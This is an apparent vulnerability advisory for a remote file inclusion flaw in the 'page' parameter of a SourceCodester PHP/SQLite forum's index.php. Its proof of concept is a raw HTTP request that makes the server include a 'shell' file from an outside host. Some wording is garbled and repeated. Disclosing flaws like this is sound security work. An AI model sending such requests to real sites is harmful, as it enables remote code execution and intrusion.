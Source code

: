 # Simple Forum Website using PHP and SQLite3 Source Code Free Download - Arbitrary file read vulnerability
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/php/16423/simple-forum-website-using-php-and-sqlite3-source-code-free-download.html
# Software Link
+ https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-forum.zip
# Overview
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Vulnerability Details
+ Simple Forum Website using PHP and SQLite3 Source Code Free DownloadV1.0
+ Vulnerable File: index.php
+ Parameter Names: page
+ Attack Type: Remote
# Description
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Note
+ Need to register a user with arbitrary permissions.
![1](https://github.com/xuanluansec/vul/blob/main/vul/img/22.png)
# Proof of Concept (PoC) : 

```
GET /index.php?page=http://192.168.166.1:8888/shell HTTP/1.1
Host: www.php-sqlite-forum.com:8095
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=drgqvt3vblngekc6rqgraeor32
Upgrade-Insecure-Requests: 1


```

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/21.png)

remote server

![3](https://github.com/xuanluansec/vul/blob/main/vul/img/23.png)
